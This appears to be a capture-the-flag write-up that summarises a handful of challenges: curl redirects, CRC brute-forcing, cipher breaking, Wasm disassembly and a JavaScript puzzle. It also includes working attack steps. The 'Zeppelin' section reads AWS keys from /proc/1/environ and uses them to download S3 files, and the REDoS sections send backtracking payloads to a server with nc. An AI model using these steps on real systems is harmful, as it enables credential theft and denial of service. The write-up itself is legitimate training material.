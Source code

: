 ### Follow the yellow brick road

Most of it was just a bunch of:

```
  curl -v -L --max-redirs 1000 http://some-url/
```

But sometimes I needed to do `nc url port` and type the methods manually.

### Small

I viewed the ZIP file with `mc` and got CRC-32 for 10-byte `flag.txt` file: 0x85777b75

Then I just brute forced everything that fit `flag{....}` pattern to get something that matched the CRC:

```
require 'zlib'
t = 0x8577_7b75
chars = [*'a'..'z', *'A'..'Z', *'0'..'9']
chars.product(chars, chars, chars).map(&:join).select{|x| Zlib::crc32("flag{#{x}}") == t }
```

### 안녕하세요

After some quick statistics check, and a detour for NFD, I went to [monoalphabetic code breaker app I wrote](https://taw.github.io/imba-monoalphabetic/), and started with space, then "the" etc.

After a while I copied the half-decoded code into text file, and finished manually.

### Wasm

I just [disassembled the file using online tool](https://wasdk.github.io/wasmcodeexplorer/).

I got what looked like some constant checking ASCII codes, and array of them.

```
 (elem (i32.const 0) $func5 $func11 $func0 $func6 $func26 $func0 $func18 $func18 $func4 $func12 $func1 $func11 $func4 $func27 $func7 $func7 $func25 $func24 $func27 $func14 $func0 $func25 $func4 $func28 $func29)
  (func $func0 (param $var0 i32) (result i32)
    get_local $var0
    i32.const 97
    i32.eq
  )
  (func $func1 (param $var0 i32) (result i32)
    get_local $var0
    i32.const 98
    i32.eq
  )
  (func $func2 (param $var0 i32) (result i32)
    get_local $var0
    i32.const 99
    i32.eq
  )
  ...
```

I reassembled substituted each `$funcN` with its ASCII code, and decoded the flag.

### Zeppelin

I didn't finish it.

I tried to run Python, but couldn't find any.

I googled some Scala code to run arbitrary processes, and ran `cat /proc/1/environ` to get AWS keys.

I set the keys in my environment, and used S3 CLI tools to get:

```
$ aws s3 ls bc-ctf/zeppelin-ctf-flag-here/
$ aws s3 cp s3://bc-ctf/zeppelin-ctf-flag-here/flag-ciphertext.enc flag-ciphertext.enc
$ aws s3  cp s3://bc-ctf/zeppelin-ctf-flag-here/grant.txt grant.txt
```

I didn't know how to proceed from there.

### Dark

I just opened the link in TOR Browser, and got the answer there.

### REDoS 1/2

I forced excessive backtracking:

```
echo '0-L0Nd/00000222222222222222222222222333333333333333333334444444444444444444440000000000000000000000000000000002255555555555555555555555555555555555555599999999999999999999994523455555555555555522222222222222285345555555555555555555555552220 SecTalkx!' | nc 35.177.74.111 44022
```

### Power

I downloaded local copy of the files, deleted all the anti-debugging code, and got to battery.

The decoding function had just 202 possible states:
* `battery.charging` either `true` or `false`
* `Math.floor(battery.level * 100)` from `0` to `100`

So I just turned that code into a loop, `console.log`ing all the answers.

### REDoS 2/2

The trick was that `\d` also matches Unicode digits. There's a lot of spaces here:

```
echo 'CTF/٥.0.0 (x, L0N,                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               ,,,,' | nc 35.177.74.111 44023
```
